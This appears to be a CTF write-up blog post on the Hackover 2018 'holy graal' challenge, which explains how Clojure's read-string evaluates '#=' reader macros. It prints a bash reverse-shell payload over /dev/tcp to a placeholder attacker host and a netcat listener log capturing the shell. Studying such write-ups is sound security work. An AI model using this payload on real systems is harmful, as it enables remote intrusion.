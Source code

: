 ```yaml
---
layout: post
title: ctf 0x02 / holy graal [PWN]
category: ctf
tags: [ctf, writeup, clojure, shellraisers, hackover18, pwn, shell, interactive]
---
```

## Shellraisers and the Holy Graal


> Everybody keeps talking about this new JIT. I think it is more secure, wouldn't you agree?
>   
> compiled with: native-image -H:+ReportUnsupportedElementsAtRuntime

We get the [main.clj](https://ctf.hackover.de/files/2d2f2aec9a9f4917d25408680f5e60bd/main.clj) file, which is a Clojure script! Oh boy, that's another language I had nothing to do with (and neither had anyone from our team as far as I know). That does, however, explain the challenge title! "holy graal", since it's probably running on the [Graal VM](https://www.graalvm.org/). Okay, but back to the topic.

Other than the script, we get access to a host that exposes something like an interactive shell:


```
Welcome to HolyGraal version 1.0.0-rc1
Everybody knows that keeping track of brackets is hard in LISP languages.
We now introduce: verify brackets as a service.
1: Send string
2: Exit
1
()
Good job, you know how to balance brackets. Now go, get the flag.
1: Send string
2: Exit
1
((())
You need to work on your balancing skills.
1: Send string
2: Exit
```

Hm... since it's a Lisp-like language, how is the bracket balance actually verified? Let's take a look at the code:

```clojure
(defmulti option identity)
(defmethod option "1" [_]
  (try
    (-> (read-line)
        (read-string))
    (println "Good job, you know how to balance brackets. Now go, get the flag.")
    (catch Exception e
      (println "You need to work on your balancing skills."))))
```

Okay, sooo... that reads a line and then... wait, what the hell is `read-string`? Let's check the docs:

> Reads one object from the string s. Optionally include reader
options, as specified in read.

Hey, that's pretty cool! You know what's even *more* cool? The next line:

>  Note that read-string can execute code (controlled by *read-eval*),
and as such should be used only with trusted sources.

Now we're talking! I've actually done a decent amount of information digging (also known as Google searching), that resulted in me findings [this discussion](https://groups.google.com/forum/#!topic/clojure/YBkUaIaRaow/discussion). It shows a simple PoC for an RCE payload via `read-string`:

```clojure
user=> (read-string "#=(clojure.java.shell/sh \"echo\" \"hi\")") 
{:exit 0, :out "hi\n", :err ""}
```

We don't get our output back in the challenge, but this isn't exactly a problem, is it? At this point I grabbed a couple of revshell ideas I had from [ub3rsec's cheatsheet](https://ub3rsec.github.io/pages/rev-shell-cheatsheet.html) and from [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for Java (as Clojure is JVM-based) and mixed them with the PoC above to get this:

```clojure
#=(clojure.java.shell/sh "/bin/bash" "-c" "exec 5<>/dev/tcp/attackerip/attackerport;cat <&5 | while read line; do $line 2>&5 >&5; done")
```

Then I just ran the listener on my box, dropped the payload and waited for the session to call home. After it connected I read the `flag.txt` file and got the flag:

```
$ nc -nlvp 31337
Listening on [0.0.0.0] (family 0, port 31337)
Connection from [188.166.163.88] port 31337 [tcp/*] accepted (family 2, sport 41364)
ls
flag.txt
holy_graal-1.3.3.7-standalone
cat flag.txt
hackover18{n3v3r_tru5s7_u53r_1npu7}
```

**Flag:** `hackover18{n3v3r_tru5s7_u53r_1npu7}`

Can't deny, I enjoyed that one ;-)

Cheers!
